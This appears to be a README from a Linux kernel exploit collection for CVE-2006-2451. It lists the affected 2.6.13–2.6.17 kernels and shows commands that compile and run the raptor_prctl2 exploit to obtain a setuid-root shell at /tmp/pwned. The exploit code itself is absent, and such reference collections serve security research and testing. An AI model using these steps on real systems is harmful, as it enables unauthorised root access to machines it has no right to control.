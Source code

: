 # CVE-2006-2451

CVE-2006-2451

Vulnerability reference:
 * [CVE-2006-2451](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2006-2451)  
 * [exp-db](http://www.exploit-db.com/exploits/2031/)  

## Kernels
```
2.6.13, 2.6.14, 2.6.15, 2.6.16, 2.6.17
```   

## Usage
```
$ gcc raptor_prctl2.c -o raptor_prctl2 -static -Wall
[exploit must be statically linked]
$ ./raptor_prctl2
[please wait until logrotate is run]
$ ls -l /tmp/pwned
-rwsr-xr-x  1 root users 7221 2006-07-18 13:32 /tmp/pwned
$ /tmp/pwned
```  



